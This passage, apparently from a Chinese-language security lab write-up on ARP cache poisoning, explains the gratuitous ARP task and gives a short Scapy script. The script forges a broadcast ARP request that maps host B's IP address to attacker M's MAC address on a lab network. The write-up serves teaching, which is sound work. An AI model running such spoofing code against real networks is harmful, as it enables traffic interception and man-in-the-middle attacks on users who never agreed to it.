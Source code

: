 ![image-20220505114359347](ARPCachePoisoning/image-20220505114359347.png)

在A处查看，没有信息

![image-20220505114303029](ARPCachePoisoning/image-20220505114303029.png)

综上，只有一个单独的回复只能在原表基础上更新内容，并不能新建内容。

### 任务1.C（ARP无故消息）

> - 任务1.C（使用ARP无故消息）。在主机M上，构建一个ARP无故数据包，并将其用于将B的IP地址映射到M的MAC地址。请在与任务1.B中所述的两种情况下启动攻击。
>   ARP无故数据包是一个特殊的ARP请求包。当主机计算机需要更新其他机器ARP缓存的过时信息时，将会使用。无故的ARP包具有以下特征：
>   - 源IP和目标IP地址是相同的，它们是发出无用ARP的主机的IP地址。
>   - ARP标头和以太网标头中的目标MAC地址是广播MAC地址(`ff:ff:ff:ff:ff:ff`)。
>   - 没有回复。

编写程序，本次是假借B的名义发送无故ARP，用于向全网通知修改事宜。

```python
#!/usr/bin/python3
from scapy.all import *

# Who can it be used? Write first!
A_ip = "10.9.0.5"
A_mac = "02:42:0a:09:00:05"
B_ip = "10.9.0.6"
B_mac = "02:42:0a:09:00:06"
M_ip = "10.9.0.105"
M_mac = "02:42:0a:09:00:69"
ALL_mac = "ff:ff:ff:ff:ff:ff"

E = Ether(src=M_mac, dst=ALL_mac)
A = ARP(hwsrc=M_mac, psrc=B_ip,
        hwdst=ALL_mac, pdst=B_ip)
A.op = 1 	# 1 for ARP request; 2 for ARP reply
pkt = E/A
pkt.show()
sendp(pkt)
```